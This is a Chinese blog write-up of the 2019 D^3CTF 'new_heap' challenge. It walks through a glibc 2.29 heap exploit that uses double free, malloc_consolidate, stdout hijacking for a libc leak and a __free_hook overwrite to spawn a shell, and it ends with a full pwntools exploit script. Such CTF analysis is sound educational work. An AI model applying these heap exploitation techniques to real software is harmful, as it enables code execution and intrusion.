<!--yml
category: 未分类
date: 2022-04-26 14:32:05
-->

# 2019 D^3CTF new_heap详细题解_ha1vk的博客-CSDN博客

> 来源：[https://blog.csdn.net/seaaseesa/article/details/103302721](https://blog.csdn.net/seaaseesa/article/details/103302721)

# new_heap(高质量题)

这题是2019 d3ctf赛的一题，当时没做出来，后来看了大佬的exp脚本，慢慢研究，终于明白了原理，现在，我们就来详细的解析一下这题

首先，我们还是检查一下程序的保护机制,**保护全开**



再看一下给我们的libc.so.6的版本,可见是glibc2.29，那么对于堆的管理，就存在**tcache****机制**



程序只有简单的3个功能，没有show，也没有edit，这让我们手无足措



然后，我们用IDA分析一下

程序一开始申请了一个0x1000的堆，然后告诉我们了堆地址的低2字节数据



然后释放了这个堆

接下来，我们在程序中申请堆时，是从0x1000的堆位置开始申请的，因此，我们知道了堆的低2字节

**最多创建18****个堆，并且每个堆的大小最多申请0x78****（实际大小0x80****）**



程序唯一的漏洞在这，free后没有把指针清零，可以造成double free



退出功能，看似没什么奇怪之处



分析到这，我们似乎也找不到一点头绪,果真是高质量题目

首先，我们总结一下

1.  我们创建不了大的堆，因为做了限制
2.  没有show功能，看似也泄露不了什么
3.  tcache bin是将空闲块的**数据域**互相链接组成链表，而fast bin是将空闲块的**头部**链接起来,tcache bin缺少充分检查，很容易利用，只要修改它的fd，即可申请到某处

     4、**只有****UAF****漏洞可以利用**

即使不需要泄露，我们也需要unsorted bin，因为unsorted bin的fd和bk处有libc中的指针，但是本题大小做了限制，大小范围都落在fastbin的大小里。并且，没有溢出漏洞，不能溢出来修改size。但是，**unsorted bin****是可以通过整理合并fastbin****，来生成的。**在ptmalloc中，有一个**malloc_consolidate**函数，用于将fastbin整理合并到unsorted bin里。malloc_consolidate的条件如下之一

1.  malloc large bin
2.  top chunk不够空间
3.  在free函数在各种合并前后chunk之后的size大于FASTBIN_CONSOLIDATION_THRESHOLD 也就是65536

本题，如何来触发malloc_consolidate呢，关键就在于退出功能，看似好像没什么用，但是getchar()是个关键的地方。

由于，本题的**输入都是用的****read**



read函数内部其实是调用sysread,内部不带缓冲区，从打开的设备或文件中读取数据。因此，在未调用功能3之前，_IO_2_1_stdin_结构体的缓冲区未初始化。

而getchar()、scanf这些，都是带有缓冲区的，它们依靠_IO_2_1_stdin_结构体，而_IO_2_1_stdin_结构体就是FILE结构体，当我们**第一次**调用带有缓冲区的输入函数时，**函数会判断****fp->_IO_buf_base****输入缓冲区是否为空，如果为空则调用的_IO_doallocbuf****去初始化输入缓冲区。**

我们先运行程序，然后用pwndbg attach到pid上

在没有执行getchar()时，我们看到的_IO_2_1_stdin_结构体内容如下



然后，我们执行一下getchar()看看



发现，getchar()初始化了缓冲区，并且**大小为****0x400****，这个大小属于large bin****范围**

因此，**功能****3****可以触发一次malloc_consolidate**

能触发malloc_consolidate，那么，我们就能将fastbin变成unsorted bin来利用

本题最多总能创建18个堆，因此，我们每一次创建都要慎重考虑，尽可能不浪费。

1.  sh.recvuntil('0x')  
2.  #chunk0的地址低2字节  
3.  low_2_byte = int(sh.recv(2),16)  

5.  #chunk0~chunk4这5个chunk用于放入tcache bin  
6.  **for** i **in** range(0,5):  
7.  create(sh,0x50,'f'*0x50)  
8.  #我们需要overlap chunk6，因此，我们需要在chunk6中伪造一个chunk  
9.  #prev_size = 0,size = 0x61,fd = bk = 0，刚好overlap到chunk6结尾  
10.  payload = 'a'*(0x50-0x20) + p64(0) + p64(0x61) + p64(0)*2  
11.  create(sh,0x50,payload) #chunk5  
12.  create(sh,0x38,'b'*0x38) #chunk6  
13.  create(sh,0x50,'c'*0x50) #chunk7 不能靠近top块，因此我们用chunk8挡住  
14.  create(sh,0x50,'d'*0x50) #chunk8  

我们在chunk5伪造chunk，把chunk6给包含进去(overlap),然后把chunk5里面那个伪造的chunk想办法链到fastbin里面，触发malloc_consolidate,让那个假chunk链接到unsorted bin，然后申请合适大小的堆，使得libc中的指针传递到chunk6的fd处

1.  #chunk0~chunk5放入tcache bin，使得0x60的tcache bin有6个节点  
2.  **for** i **in** range(0,6):  
3.  delete(sh,i)  
4.  #chunk6放入0x40的tcache bin  
5.  delete(sh,6)  
6.  #chunk8 放入0x60的tcache bin  
7.  delete(sh,8)  
8.  #chunk7放入0x60的fastbin  
9.  delete(sh,7)  
10.  #从tcache取出头chunk  
11.  create(sh,0x50,'\n')  #9  
12.  #chunk7 放入tcache bin  
13.  delete(sh,7)  

我们先把0~5放入0x60的tcache bin，把chunk6放入0x40的tcache bin，把8放入0x60的tcache bin，接下来delete(7)时，由于0x60的tcache bin已经达到了7个，所以chunk7放在fastbin，由于**fastbin****不检查非top****的节点double free****，于是，我们从tcache****里取出一个，再次delete(7)****，那么chunk7****成为0x60****的tcache bin****的头结点**。chunk8存在的作用就是使得chunk7不是top，然后我们看看bins的布局



1.  #由于chunk7同时存在于tcache bin和fastbin，又由于tcache bin各指针指向的是chunk的数据区，所以，我们这次create时，顺便低位覆盖，便可以  
2.  #改变chunk7的fd指针，我们要让chunk7的fd指针指向我们在chunk5末尾伪造的那个chunk，由于chunk6被overlap，然后，我们就可以想办法触发malloc_consolidate，生成  
3.  #unsorted bin，再通过申请，把libc中的关键指针传递到chunk6的fd域  
4.  create(sh,0x50,p16(((low_2_byte + 2) << 8) + 0x70)) #10也就是chunk7的空间  

经过这个create操作后，fastbin里的指针发生了变化



0x60的fastbin里链入了我们伪造的chunk

接下来，我们触发malloc_consolidate

1.  #整理fastbin，使得fastbin变成unsorted bin  
2.  mallocConsolidate(sh)  

再看看bins的布局



我们伪造的chunk里面fd已经有了libc中的指针，接下来，我们通过申请合适大小的chunk，就能把libc中指针传递到chunk6的fd，使得0x40的tcache bin链上libc中的指针。

1.  #create后，libc中的指针传到了chunk6的fd处  
2.  #我们随便先把/bin/sh字符串保存到这里，最后free_hook时使用  
3.  create(sh,0x10,'/bin/sh') #11  

现在，再看看bins



因为，我们malloc(0x10)，所以，会**从****unsorted bin****里切割0x20****，所以unsorted bin****头变成了**

**0x555555757490****，然后libc****中的指针会被传到下一个chunk****，也就是0x555555757490 + 0x10 = 0x5555557574a0**

接下来，我们据需申请**大小不在****tcache bin****里的chunk****，来低位覆盖chunk6****的fd**，使得chunk6的fd有可能指向_IO_2_1_stdout_结构体

1.  #低2字节覆盖，使得chunk6的fd有1/16的可能指向_IO_2_1_stdout_结构体-0x10处  
2.  create(sh,0x10,p16((_IO_2_1_stdout_s - 0x10) & 0xFFFF)) #12  

我们**为什么要劫持****_IO_2_1_stdout_****结构体呢**？因为程序在创建堆后有一个puts调用



我们来看看puts的源代码

1.  **int**  
2.  _IO_puts (**const** **char** *str)  
3.  {  
4.  **int** result = EOF;  
5.  _IO_size_t len = strlen (str);  
6.  _IO_acquire_lock (_IO_stdout);  
7.  **if** ((_IO_vtable_offset (_IO_stdout) != 0  
8.  || _IO_fwide (_IO_stdout, -1) == -1)  
9.  && _IO_sputn (_IO_stdout, str, len) == len  
10.  && _IO_putc_unlocked ('\n', _IO_stdout) != EOF)  
11.  result = MIN (INT_MAX, len + 1);  
12.  _IO_release_lock (_IO_stdout);  
13.  **return** result;  
14.  }  

_IO_puts，**其内部调用****_IO_sputn,****接着执行_IO_new_file_xsputn,****最终会执行_IO_overflow**

1.  **int**  
2.  _IO_new_file_overflow (_IO_FILE *f, **int** ch)  
3.  {  
4.  **if** (f->_flags & _IO_NO_WRITES) /* SET ERROR */  
5.  {  
6.  f->_flags |= _IO_ERR_SEEN;  
7.  __set_errno (EBADF);  
8.  **return** EOF;  
9.  }  
10.  /* If currently reading or no buffer allocated. */  
11.  **if** ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)  
12.  ......  
13.  ......  
14.  }  
15.  **if** (ch == EOF)  
16.  //我们需要控制_IO_write_base  
17.  **return** _IO_do_write (f, f->_IO_write_base,  
18.  f->_IO_write_ptr - f->_IO_write_base);  
19.  **if** (**f->_IO_write_ptr == f->_IO_buf_end**) //当两个地址相等就不会输出缓冲区里数据。  
20.  **if** (_IO_do_flush (f) == EOF)  
21.  **return** EOF;  
22.  *f->_IO_write_ptr++ = ch;  
23.  **if** ((f->_flags & _IO_UNBUFFERED)  
24.  || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))  
25.  **if** (_IO_do_write (f, f->_IO_write_base,  
26.  f->_IO_write_ptr - f->_IO_write_base) == EOF)  
27.  **return** EOF;  
28.  **return** (unsigned **char**) ch;  
29.  }  

通过上面源码分析，当IO_write_ptr与_IO_buf_end不想等的时候就会打印它们之间的字符，而这之间，可以泄露出一些信息，然后我们就能计算出libc基地址，因此，**我们想办法劫持****_IO_2_1_stdout_****结构体，将_IO_write_base****的低字节覆盖，然后我们调用puts(“done”)****时，就能泄露出信息**

当然，由于PIE，我们有**1/16(****倒数第4****个16****进制数可能不一样)**的几率通过低覆盖chunk6的fd，使得fd指向了_IO_2_1_stdout_结构体，我们接下来的操作，都是假设fd正确的指向了_IO_2_1_stdout_结构体



当前，覆盖fd，没有指向**_IO_2_1_stdout_**结构体，当我们假设指向了_IO_2_1_stdout_结构体，那么malloc(0x38)两次就能申请到_IO_2_1_stdout_结构体-0x10处

1.  create(sh,0x38,'\n') #13  
2.  #假设chunk6的fd已经指向了_IO_2_1_stdout_，我们低位覆盖write_base指针  
3.  payload = '\x00' * 0x10 + p64(0xfbad1800) + p64(0) * 3 + **p8(0)  **
4.  create(sh,0x38,payload) #14  
5.  response = sh.recvuntil('done')  
6.  #没有成功覆盖，说明我们没有命中_IO_2_1_stdout_结构体，抛出异常，重试  
7.  **if** len(response) < 8:  
8.  **raise** Exception('retry')  
9.  #print response  
10.  #低位覆盖后，对应地址处的数据向后偏移8，正好是_IO_stdfile_2_lock的地址  
11.  _IO_stdfile_2_lock_addr = u64(response[8:16])  
12.  #计算出libc的地址  
13.  libc_base = _IO_stdfile_2_lock_addr - _IO_stdfile_2_lock  
14.  system_addr = libc_base + system_s  
15.  free_hook_addr = libc_base + free_s_hook  
16.  **print** 'libc_base=',hex(libc_base)  
17.  **print** 'system_addr=',hex(system_addr)  
18.  **print** 'free_hook_addr=',hex(free_hook_addr)  

如上，我们**p8(0)****将write_base****的低1****字节覆盖为了0****，经过IDA****调试，发现低位覆盖后，对应地址处的数据向后偏移8****，正好是_IO_stdfile_2_lock****的地址**，那么我们就能计算出libc的地址，以及其他一些需要用的函数的地址

接下来，bins变成这样了



现在，我们只剩下3个chunk可以申请，因此再申请就超过了18个了，然而，我们还需要攻击free_hook，当前unsorted bin的头为0x563a0b8d84b0，**我们还是想用同样的方法，来修改****tcache bin****里头结点的fd**，但是0x60 tcache bin头结点是0x563a0b8d8440，比unsorted bin的头结点地址低，覆盖不到。但是，**还记得****chunk6****后面的那个chunk7****吗，它的地址正好只比当前unsorted bin****的头节点地址高一点,****但是chunk7****当前不在tcache****中，因为之前被申请出去了，那么我们再重新把chunk7****放回来**

1.  #让chunk8重新回到tcache中，作为头0x80 tcache bin的头  
2.  delete(sh,10)  

然后，我们再看看bins(**注意，我们每次调试都重新运行了重新，所以地址会有所变化，但是他们相对地址是不变的**)



现在，我们可以申请合适大小的chunk，来修改0x60 tcache bin头结点的fd指针，让它指向free_hook

1.  #接下来，我们再申请，又从unsorted bin里切割一块，但是切得的这一块与chunk7有重合的部分，因此我们可以修改chunk7的fd，让它指向free_hook  
2.  payload = '\x00' * 0x20 + p64(free_hook_addr)  
3.  create(sh,0x30,payload) #15  

我们再看看bins



那么，我们接下来继续申请，正好把free_hook指向system，然后18个堆正好用完

1.  create(sh,0x50,'e'*0x50) #16  
2.  #将free_hook指向system  
3.  create(sh,0x50,p64(system_addr)) #17  
4.  #getshell  
5.  delete(sh,11)  

由于只有1/16的几率，我们还需要爆破，综上，我们的exp脚本

1.  #coding:utf8  
2.  **from** pwn **import** *  

4.  libc = ELF('./libc.so.6')  
5.  free_s_hook = libc.symbols['__free_hook']  
6.  _IO_2_1_stdout_s = libc.symbols['_IO_2_1_stdout_']  
7.  _IO_stdfile_2_lock = libc.symbols['_IO_stdfile_2_lock']  
8.  system_s = libc.sym['system']  

10.  **def** create(sh,size,content):  
11.  sh.sendlineafter('3.exit','1')  
12.  sh.sendlineafter('size:',str(size))  
13.  sh.sendafter('content:',content)  

15.  **def** delete(sh,index):  
16.  sh.sendlineafter('3.exit','2')  
17.  sh.sendlineafter('index:',str(index))  

19.  #getchar()会申请large bin触发malloc consolidate  
20.  **def** mallocConsolidate(sh):  
21.  sh.sendlineafter('3.exit\n','3')  
22.  sh.sendafter('sure?\n','n')  

24.  #爆破,成功率1/16  
25.  **def** crack(sh):  
26.  sh.recvuntil('0x')  
27.  #chunk0的地址低2字节  
28.  low_2_byte = int(sh.recv(2),16)  

30.  #chunk0~chunk4这5个chunk用于放入tcache bin  
31.  **for** i **in** range(0,5):  
32.  create(sh,0x50,'f'*0x50)  
33.  #我们需要overlap chunk6，因此，我们需要在chunk6中伪造一个chunk  
34.  #prev_size = 0,size = 0x61,fd = bk = 0，刚好overlap到chunk6结尾  
35.  payload = 'a'*(0x50-0x20) + p64(0) + p64(0x61) + p64(0)*2  
36.  create(sh,0x50,payload) #chunk5  
37.  create(sh,0x38,'b'*0x38) #chunk6  
38.  create(sh,0x50,'c'*0x50) #chunk7 不能靠近top块，因此我们用chunk8挡住  
39.  create(sh,0x50,'d'*0x50) #chunk8  

41.  #chunk0~chunk5放入tcache bin，使得0x60的tcache bin有6个节点  
42.  **for** i **in** range(0,6):  
43.  delete(sh,i)  
44.  #chunk6放入0x40的tcache bin  
45.  delete(sh,6)  
46.  #chunk8 放入0x60的tcache bin  
47.  delete(sh,8)  
48.  #chunk7放入0x60的fastbin  
49.  delete(sh,7)  
50.  #从tcache取出头chunk  
51.  create(sh,0x50,'\n')  #9  
52.  #chunk7 放入tcache bin  
53.  delete(sh,7)  
54.  #由于chunk7同时存在于tcache bin和fastbin，又由于tcache bin各指针指向的是chunk的数据区，所以，我们这次create时，顺便低位覆盖，便可以  
55.  #改变chunk7的fd指针，我们要让chunk7的fd指针指向我们在chunk5末尾伪造的那个chunk，由于chunk6被overlap，然后，我们就可以想办法触发malloc_consolidate，生成  
56.  #unsorted bin，再通过申请，把libc中的关键指针传递到chunk6的fd域  
57.  create(sh,0x50,p16(((low_2_byte + 2) << 8) + 0x70)) #10也就是chunk7的空间  
58.  #整理fastbin，使得fastbin变成unsorted bin  
59.  mallocConsolidate(sh)  
60.  #create后，libc中的指针传到了chunk6的fd处  
61.  #我们随便先把/bin/sh字符串保存到这里，最后free_hook时使用  
62.  create(sh,0x10,'/bin/sh') #11  
63.  #低2字节覆盖，使得chunk6的fd有1/16的可能指向_IO_2_1_stdout_结构体-0x10处  
64.  create(sh,0x10,p16((_IO_2_1_stdout_s - 0x10) & 0xFFFF)) #12  
65.  create(sh,0x38,'\n') #13  
66.  #假设chunk6的fd已经指向了_IO_2_1_stdout_，我们低位覆盖write_base指针  
67.  payload = '\x00' * 0x10 + p64(0xfbad1800) + p64(0) * 3 + p8(0)  
68.  create(sh,0x38,payload) #14  
69.  response = sh.recvuntil('done')  
70.  #没有成功覆盖，说明我们没有命中_IO_2_1_stdout_结构体，抛出异常，重试  
71.  **if** len(response) < 8:  
72.  **raise** Exception('retry')  
73.  #print response  
74.  #低位覆盖后，对应地址处的数据向后偏移8，正好是_IO_stdfile_2_lock的地址  
75.  _IO_stdfile_2_lock_addr = u64(response[8:16])  
76.  #计算出libc的地址  
77.  libc_base = _IO_stdfile_2_lock_addr - _IO_stdfile_2_lock  
78.  system_addr = libc_base + system_s  
79.  free_hook_addr = libc_base + free_s_hook  
80.  **print** 'libc_base=',hex(libc_base)  
81.  **print** 'system_addr=',hex(system_addr)  
82.  **print** 'free_hook_addr=',hex(free_hook_addr)  
83.  #让chunk8重新回到tcache中，作为头0x80 tcache bin的头  
84.  delete(sh,10)  
85.  #接下来，我们再申请，又从unsorted bin里切割一块，但是切得的这一块与chunk7有重合的部分，因此我们可以修改chunk7的fd，让它指向free_hook  
86.  payload = '\x00' * 0x20 + p64(free_hook_addr)  
87.  create(sh,0x30,payload) #15  
88.  create(sh,0x50,'e'*0x50) #16  
89.  #将free_hook指向system  
90.  create(sh,0x50,p64(system_addr)) #17  
91.  #getshell  
92.  delete(sh,11)  
93.  sh.interactive()  

96.  **while** True:  
97.  **try**:  
98.  sh = process('./new_heap',env={"LD_PRELOAD":"./libc.so.6"})  
99.  crack(sh)  
100.  **except**:  
101.  sh.close()  
102.  **print** 'retrying...'